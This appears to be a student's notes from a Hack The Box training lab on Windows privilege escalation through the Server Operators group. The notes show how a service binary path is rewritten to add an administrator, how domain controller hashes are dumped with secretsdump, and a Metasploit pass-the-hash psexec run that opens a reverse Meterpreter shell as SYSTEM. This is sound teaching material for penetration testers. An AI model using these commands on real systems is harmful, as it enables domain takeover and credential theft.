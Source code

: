 # Server Operators
* Allows members to administer Windows servers without needing assignment of Domain Admin privileges
* Members of the Server Operators group typically have permissions to perform tasks such as restart/shut down domain controller, managing shared resources, managing services, managing printer queues
* Very high privileged group that can log in locally to servers
* Members are granted the `SeBackupPrivilege` and `SeRestorePrivilege` and the ability to control local services

## Querying the AppReadiness Service

### AppReadiness Service
* Ensure that applications are ready for use on Windows systems
* It handles various tasks related to the installation, update, and removal of applications, ensuring they are prepared and configured correctly for use

<pre>C:\htb> sc qc AppReadiness

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AppReadiness
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\System32\svchost.exe -k AppReadiness -p
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : App Readiness
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem</pre>

* Service starts as SYSTEM 

## Checking Service Permissions with PsService
* Use the service viewer/controller **PsService** which is part of the Sysinternals suite - to check permissions on the service
* **PsService** is similar to **sc** utility and can display service status and configurations - also allows you to start/stop/resume/pause/restart services both locally and remote

<pre>C:\htb> c:\Tools\PsService.exe security AppReadiness

PsService v2.25 - Service information and configuration utility
Copyright (C) 2001-2010 Mark Russinovich
Sysinternals - www.sysinternals.com

SERVICE_NAME: AppReadiness
DISPLAY_NAME: App Readiness
        ACCOUNT: LocalSystem
        SECURITY:
        [ALLOW] NT AUTHORITY\SYSTEM
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                Pause/Resume
                Start
                Stop
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Administrators
                All
        [ALLOW] NT AUTHORITY\INTERACTIVE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] NT AUTHORITY\SERVICE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Server Operators
                All</pre>

* Server Operators group has `SERVICE_ALL_ACCESS` - full control over the service

## Checking Local Admin Group Membership
* View the current members of the local administrators group
* Target account is not present

<pre>C:\htb> net localgroup Administrators

Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
The command completed successfully.</pre>

## Modify the Service Binary Path
* Change the binary path to execute a command which adds our current user to the default local administrator group

<pre>C:\htb> sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"

[SC] ChangeServiceConfig SUCCESS</pre>

## Starting the Service
* Starting the service fails - as expected

<pre>C:\htb> sc start AppReadiness

[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.</pre>

## Confirm Local Admin Group Membership
* Check membership of administrators group - command was executed successfully
* `server_adm` account has now been added

<pre>C:\htb> net localgroup Administrators

Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
server_adm
The command completed successfully.</pre>

## Confirm Local Admin Access on Domain Controller
* We have full control over the Domain Controller and could retrieve all credentials from the NTDS database and access other systems

<pre>Jinksbach1234@htb[/htb]$ crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'

SMB         10.129.43.9     445    WINLPE-DC01      [*] Windows 10.0 Build 17763 (name:WINLPE-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.43.9     445    WINLPE-DC01      [+] INLANEFREIGHT.LOCAL\server_adm:HTB_@cademy_stdnt! (Pwn3d!)</pre>

## Retrieve NTLM Password Hashes from Domain Controller

<pre>Jinksbach1234@htb[/htb]$ secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator</pre>

## PSExec - Pass the Hash - Metasploit
Pass-the-Hash is a credential theft and lateral movement technique in which an attacker abuses the NTLM authentication protocol to authenticate as a user without ever obtaining the account’s plaintext password.

<pre>msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.43.42
RHOSTS => 10.129.43.42
msf6 exploit(windows/smb/psexec) > set SMBUser Administrator
SMBUser => Administrator
msf6 exploit(windows/smb/psexec) > set LHOST tun0
LHOST => 10.10.14.240
msf6 exploit(windows/smb/psexec) > set SMBPass *************:*********************
SMBPass => *************:*********************
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.240:4444 
[*] 10.129.43.42:445 - Connecting to the server...
[*] 10.129.43.42:445 - Authenticating to 10.129.43.42:445 as user 'administrator'...
[*] 10.129.43.42:445 - Selecting PowerShell target
[*] 10.129.43.42:445 - Executing the payload...
[+] 10.129.43.42:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 10.129.43.42
[*] Meterpreter session 1 opened (10.10.14.240:4444 -> 10.129.43.42:61517) at 2024-06-03 13:28:43 +0100

meterpreter > shell
Process 2624 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system</pre>